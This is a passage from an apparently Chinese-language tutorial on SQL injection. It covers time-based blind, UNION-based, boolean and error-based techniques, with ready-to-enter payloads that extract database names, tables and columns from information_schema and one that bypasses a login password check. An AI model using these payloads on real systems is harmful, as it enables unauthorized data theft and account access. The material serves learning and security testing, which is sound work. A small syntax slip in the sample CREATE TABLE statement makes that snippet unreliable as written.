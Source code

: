 #### 2.1.2.3 盲注

    入参中输入一个单引号加sleep函数, 通过观察是否页面在load来判定是否存在SQL注入漏洞
    如:
    tom' or sleep(10); -- 

## 2.2 常见的SQL注入方式

### 2.2.1 UNION query SQL injection

    #前置
    SELECT * FROM item UNION SELECT 1,2,3, 4,5,6,7;
    这里的*号返回几个字段, 最大值就是几, 如果不知道, 就一直猜就行
    
    step1:初始化示例SQL
    CREATE TABLE `item` (id` bigint(20) NOT NULL,`item_name` varchar(20) DEFAULT NULL,`manu` varchar(20) DEFAULT NULL,`weight` float DEFAULT NULL,`price` float DEFAULT NULL,`popularity` int(11) DEFAULT NULL,`includes` varchar(20) DEFAULT NULL,PRIMARY KEY (`id`)) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4;
    INSERT INTO `item` VALUES ('1', 'my_item', 'my_menu', '13', '22.6', '25', 'hi');
    
    step2:SQL注入获取数据库名
    SELECT * FROM item UNION SELECT 1, USER(), DATABASE(), 4,5,6,VERSION();
    注意每一个占据位置的函数的对应的字段的类型不要报错就行 
    
    step3:根据上一步获取的数据库名my_solr获取表名
    SELECT * FROM item UNION SELECT 1,DATABASE(),table_name,4,5,6,7 FROM information_schema.tables WHERE table_schema=DATABASE();
    用户在前端输入框输入:
    1' UNION SELECT 1,DATABASE(),table_name,4,5,6,7 FROM information_schema.tables WHERE table_schema=DATABASE(); -- 
    或者输入:
    1' UNION SELECT 1,DATABASE(),GROUP_CONCAT(table_name),4,5,6,7 FROM information_schema.tables WHERE table_schema=DATABASE(); # 
    
    step4:根据上一步获取的表名, 逐步分析各个表中的字段, 以如何获取tb_user表字段为例:
    SELECT * FROM item UNION SELECT 1,DATABASE(),column_name,4,5,6,7 FROM information_schema.columns WHERE TABLE_NAME='tb_user';
    用户在前端输入框输入:
    1' UNION SELECT 1,DATABASE(),column_name,4,5,6,7 FROM information_schema.columns WHERE TABLE_NAME='tb_user'; -- 
    或者输入:
    1' UNION SELECT 1,DATABASE(),GROUP_CONCAT(column_name),4,5,6,7 FROM information_schema.columns WHERE TABLE_NAME='item'; -- 

### 2.2.2 Boolean-based blind SQL injection

    如 a' or 1=1, 可以在登录的密码处等多个地方尝试

### 2.2.3 Error-based SQL injection

```
常用的函数：
floor(),rand(),updatexml(),extractvalue()

#1.rand报错
mysql 5.7 时，这种方式就不能用了

rand()每次出来的值都不一样
rand(0)在一定时间内出来的值是相同的

#该表中数据如果小于3条，则不会报错
SELECT COUNT(*),FLOOR(RAND(0)*2) x FROM tb_stu GROUP BY x;

#2.updatexml,extractvalue报错，实际是利用xpath不支持的语法实现
SELECT updatexml(1,0x7e,1)
SELECT extractvalue(1,0x7e)
```